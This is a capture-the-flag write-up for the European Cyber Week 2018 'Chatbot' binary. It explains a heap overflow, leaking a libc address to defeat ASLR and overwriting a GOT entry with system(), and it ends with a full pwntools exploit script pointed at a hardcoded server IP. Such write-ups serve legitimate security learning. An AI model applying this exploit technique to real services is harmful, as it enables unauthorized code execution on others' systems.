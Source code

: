 ```yaml
---
weight: 4
title: "[European Cyber Week] - Chatbot"
date: 2018-10-22T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: "Simple reverse shell using OpenSSL."
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["ecw", "thales", "airbus", "pwn", "heap", "overflow"]
categories: ["Writeups"]

lightgallery: true
---
```


## Find the vulnerability

To begin with, I just played with the binary, trying to find bugs in it... After a few seconds I found this:


![](/lib/images/writeups/2018_ecw/chatbot/segfault1.png) 


Ok, maybe there is something here, let's open IDA :D (I hate it).


![](/lib/images/writeups//2018_ecw/chatbot/vulnerability.png) 


* Framed in red: A few `malloc` declaration.
* Purple highlight: `nickname` variable.
* Green highlight: `chatbot` variable.

According to the previous picture, we can assume that the heap looks like this:


![](/lib/images/writeups//2018_ecw/chatbot/heap_chatbot.png) 


Ok, so we saw that the program crashes when I enter too many bytes, let's see how many it takes:


![](/lib/images/writeups//2018_ecw/chatbot/offset.png) 


* Framed in purple: Generation of the segfault.
* Framed in red: Offset determination.

If we try to overflow 16 bytes after the nickname, we're here in the heap:


![](/lib/images/writeups//2018_ecw/chatbot/overflow1.png) 


## Read everywhere

Now, let's try to display an internal string of the binary as botname!
I decided to take this one:


![](/lib/images/writeups//2018_ecw/chatbot/ida_str_yo.png) 


Poc:


![](/lib/images/writeups//2018_ecw/chatbot/poc_readeverywhere.png) 


## Hypothesis

Ok so now we have something really great. What would happened if I can overwrite a GOT address with the address of the system() function? It would look like this:


![](/lib/images/writeups//2018_ecw/chatbot/hypothesis.png) 


## Exploit

Let's exploit it :)

### Bypass ASLR

I need to find a leak in one the libc functions in order to find the libc base address. Then I'll be able to find the offset between the base address and the system() function.

#### Leak the __libc_start_main address

There is a well-known leak in the `__libc_start_main` function in the GOT. We can extract the adress of this function:


![](/lib/images/writeups//2018_ecw/chatbot/start_main_libc.png) 


#### Calculate Libc base address

You will need to display `/proc/[PID of Chatbot]/maps` to get the libc base address and calculate the offset:

```bash
$ ps -A | grep chat
32576 pts/7    00:00:00 chatbot

$ cat /proc/32576/maps
[...]
f7dda000-f7f87000 r-xp 00000000 fd:00 4456457                            /lib32/libc-2.23.so
f7f87000-f7f88000 ---p 001ad000 fd:00 4456457                            /lib32/libc-2.23.so
f7f88000-f7f8a000 r--p 001ad000 fd:00 4456457                            /lib32/libc-2.23.so
f7f8a000-f7f8b000 rw-p 001af000 fd:00 4456457                            /lib32/libc-2.23.so
[...]
```

> Which one of the displayed libc do we need to choose ?

You need to know the system() function address. So your libc base needs to be executable because all the functions in a binary are executable, right ? We can see that only the first one `0xf7dda000` have this permission.


![](/lib/images/writeups//2018_ecw/chatbot/aslr_bypassed.png) 


* Framed in red: In the center, you can see the offset determination. On the right, there is the calculation of the libc base address.
* Framed in yellow: Top right, our new libc base address (because I restarted the chatbot binary, the ASLR randomized the addresses). On the left, you can check our substraction, it looks like it works :)

Another tip, the libc is mapped on memory page, so if after your calculation you have an address that ends with `000` it sounds good. The memory pages are 4Kb long, so `0x1000` in hex.

### System address

We have our libc base address, now we have to find the address of the `system()` function.


![](/lib/images/writeups//2018_ecw/chatbot/systemaddre.png) 


* Framed in red: System address determination.
* Framed in yellow: Little addition.
* Framed in cyan: Check the system address, it looks like it works :)

### Final local exploit

At this point, we have everything we need to exploit the binary and get a shell:


![](/lib/images/writeups//2018_ecw/chatbot/local_exploit.png) 


![](https://media.giphy.com/media/yoJC2GnSClbPOkV0eA/giphy.gif)

## Flag

As we can see, we don't have any return of our function, so I use a little binary called `ngrok` to get a netcat on my laptop (without opening ports).

> https://ngrok.com/

And then, the graal:


![](/lib/images/writeups//2018_ecw/chatbot/flag.png) 

### Complete exploit code:

```python
#!/usr/bin/python2

from pwn import *

#ip = '127.0.0.1'
ip = '54.36.205.82'

addr_yoPython = 0x08049931
addr_libcStartMain = 0x0804C03C
addr_strlengot = 0x0804C038

c = remote(ip, 22000)
print(c.recv(4069))
c.sendline("nickname")
print(c.recv(4096))
#c.interactive()
c.sendline('A'*16+p32(addr_libcStartMain))
c.sendline("help")
rawleak = c.recvuntil("I")
addr_startmain = rawleak.split('\x00')[5][:4] # Had to change my split member from 4 to 5 don't know why
print('Addr start_main: 0x%x' % u32(addr_startmain))
c.recv(4096)
addr_baselibc = u32(addr_startmain) - 0x18540
print('Addr base libc: 0x%x' % addr_baselibc)
addr_system = addr_baselibc + 0x3a940
print('System address: 0x%x' % addr_system)
c.sendline("nickname")
c.recv(4096)
c.sendline('A'*16+p32(addr_strlengot))
c.recv(4096)
c.sendline("botname")
c.recv(4096)
c.sendline(p32(addr_system))
c.interactive()
```